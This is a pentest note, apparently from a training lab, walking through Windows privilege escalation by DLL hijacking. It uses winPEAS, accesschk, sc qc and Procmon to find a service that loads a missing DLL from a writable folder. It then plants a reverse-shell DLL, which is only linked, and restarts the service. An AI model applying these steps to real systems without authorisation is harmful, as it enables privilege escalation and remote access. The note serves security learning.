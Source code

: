 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

   1. Use winPEAS to enumerate non-Windows services:

```command prompt - windows
.\winPEASx64.exe quiet servicesinfo
```


2. Note that the C:\Temp directory is writable and in the PATH. Start by enumerating which of these services our user has stop and start access to:

```command prompt - windows
.\accesschk64.exe /accepteula -uvqc user dllsvc
```

3. The “dllsvc” service is vulnerable to DLL Hijacking. According to the winPEAS output, the service runs the dllhijackservice.exe executable. We can confirm this manually:

```command prompt - windows
sc qc dllsvc
```

4. Run Procmon64.exe with administrator privileges. Press Ctrl+L to open the Filter menu.

5. Add a new filter on the Process Name matching dllhijackservice.exe.

6. On the main screen, deselect registry activity and network activity.

7. Start the service:

```command prompt - windows
net start dllsvc
```

8. Back in Procmon, note that a number of “NAME NOT FOUND” errors appear, associated with the hijackme.dll file.

9. At some point, Windows tries to find the file in the C:\Temp directory, which as we found earlier, is writable by our user.

10. On Kali, generate a reverse shell DLL named hijackme.dll:

[[1._Reverse Shells (WIN)#DLL]]

11. Copy the DLL to the Windows VM and into the C:\Temp directory. Start a listener on Kali and then stop/start the service to trigger the exploit:

```command prompt - windows
net stop dllsvc
```

```command prompt - windows
net start dllsvc
```

![[Pasted image 20211229132448.png]]

```command prompt - windows
.\accesschk.exe /accepteula -uvqc Aaron WiseBootAssistant
```
